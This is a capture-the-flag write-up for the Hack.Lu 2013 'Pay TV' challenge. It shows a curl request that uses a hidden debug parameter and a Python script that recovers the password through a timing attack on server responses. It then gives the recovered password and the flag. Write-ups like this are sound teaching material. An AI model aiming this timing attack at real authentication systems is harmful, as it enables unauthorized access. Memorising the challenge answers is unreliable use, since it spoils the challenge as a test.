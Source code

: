 # Pay TV writeup
    Hack.Lu CTF, 2013
    Writeup by pipecork

The robots want to watch pay-per-view. Challenge leads to a page with a few
cartoon robots watching static on a TV. To the side is a text entry form with a
button for the paytv password.

A quick inspection of the page source reveals that the password is indeed sent
to the server, so there's no javascript to reverse engineer. The challenge key
is sent by the server, so we'll need the correct password to get it. Closer
inspection shows a commented out '&debug' parameter being sent with the key:

    xhr.send('key=' + encodeURIComponent(key)/* + '&debug'*/)

Using curl to send a request with the parameter:

    curl 'https://ctf.fluxfingers.net:1316/gimmetv' -H 'Content-Type: application/x-www-form-urlencoded' --data 'key=password&debug'

Gives us a response of the format:

    {"start": 1382591326.126576, "end": 1382591326.126610, "response": "Wrong key.", "success": false}

A start and end time in epoch, likely of the time needed to process our given
password. So it sounds like a timing attack! Some dirty python:

    #!/usr/bin/env python

    import urllib
    import urllib.parse
    import urllib.request
    import string
    import json

    url = 'https://ctf.fluxfingers.net:1316/gimmetv'
    key_length = 10
    sample_size = 10

    def send_request(key):
      values = {'key' : key, 'debug' : 'true'}

      data = urllib.parse.urlencode(values)
      data = data.encode('utf-8')
      req = urllib.request.Request(url, data)
      response = urllib.request.urlopen(req)

      response_dict = json.loads(response.read().decode('utf-8'))
      return response_dict

    def parse_time_diff(response):
      end = response['end']
      start = response['start']
      return end*1000000 - start*1000000


    def main(): 
      charlist = list(string.ascii_letters + string.digits)
      key = ""

      for l in range(key_length):
        averages = []  
        for ch in charlist:
          time_diffs = []
          for i in range(sample_size):
            response = send_request(key + ch)
            diff = parse_time_diff(response)
            time_diffs.append(diff)

          average = sum(time_diffs)/len(time_diffs)
          averages.append(average)
          print(key, "+", ch, "average:", average)

        next_char = charlist[averages.index(max(averages))]
        key = key + next_char

      print("The password is or is a substring of", key)

    main()

After looking at a few responses, it became obvious that the processing time was
being artificially exaggerated, so taking multiple samples was unnecessary.

After checking every given partial key found, the correct key discovered was
`AXMNP93`. Typing that into the entry box shows the challenge key in the picture
TV screen, `OH_THAT_ARTWORK!`
